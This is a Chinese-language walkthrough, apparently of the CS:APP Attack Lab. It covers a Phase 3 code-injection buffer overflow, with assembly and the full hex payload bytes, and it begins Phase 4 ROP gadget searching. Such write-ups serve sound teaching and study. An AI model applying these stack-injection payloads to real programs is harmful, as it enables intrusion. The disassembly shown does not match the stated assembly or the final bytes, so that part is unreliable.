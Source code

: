 由：

```C
char *s = cbuf + random() % 100;
```

可以知道，s的起始地址是cbuf + [0, 99]，而s的长度是8+1=9个字节（需要包括字符串结尾的00）。那么s占据的可能空间便是[0,108]。而我们需要注入的字符串的长度也是9个字节，但108+9已经超过了112字节长度的限制，因此我们不能把注入的字符串放置在这段内存中。

---

那还有哪里可以存放注入的字符串呢？首先我们不能放在地址比%rsp更低的位置，因为hexmatch中有很多函数调用，我们不知道栈会向下延伸到哪里，因此我们尝试向上覆盖掉test函数的内容，或者可以在内存中的.text区、.data区以及heap区找一个空间去存法。我使用的是覆盖test函数的内容，因为这样可以直接在注入的字符串尾部接上传入的字符串，只需要三行汇编就能解决。

---

我们需要用到的汇编代码是：

```assembly
movq $0x5560c7c8, %rdi
push $0x401843
ret
```

用同样方法得到16进制表示：
```assembly
0000000000000000 <.text>:
   0:   48 c7 c7 00 c6 60 55    mov    $0x5560c600,%rdi
   7:   48 ba 36 37 61 61 32    movabs $0x3036313261613736,%rdx
   e:   31 36 30 
  11:   48 89 17                mov    %rdx,(%rdi)
  14:   c6 47 08 00             movb   $0x0,0x8(%rdi)
  18:   68 43 18 40 00          push   $0x401843
  1d:   c3                      ret
```

于是我们注入的字符串16进制表示为：

```
48 c7 c7 c8 c7 60 55
68 43 18 40 00
c3
00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
98 c7 60 55 00 00 00 00
36 37 61 61 32 31 36 30 00
```

成功通过

## Phase 4

这一关的任务是用ROP攻击复现Phase 2的攻击，为此我们需要在gadget farm的汇编代码中寻找可以使用的代码碎片。

最为直接的方法是在栈上存入cookie然后一条`popq %rdi`命令就可以直接把数据存入%rdi中，对应的十六进制表示就是`5f c3`其中c3是ret的编码。但我们用`grep`查找汇编时没有发现这个序列，因此此路不通。

---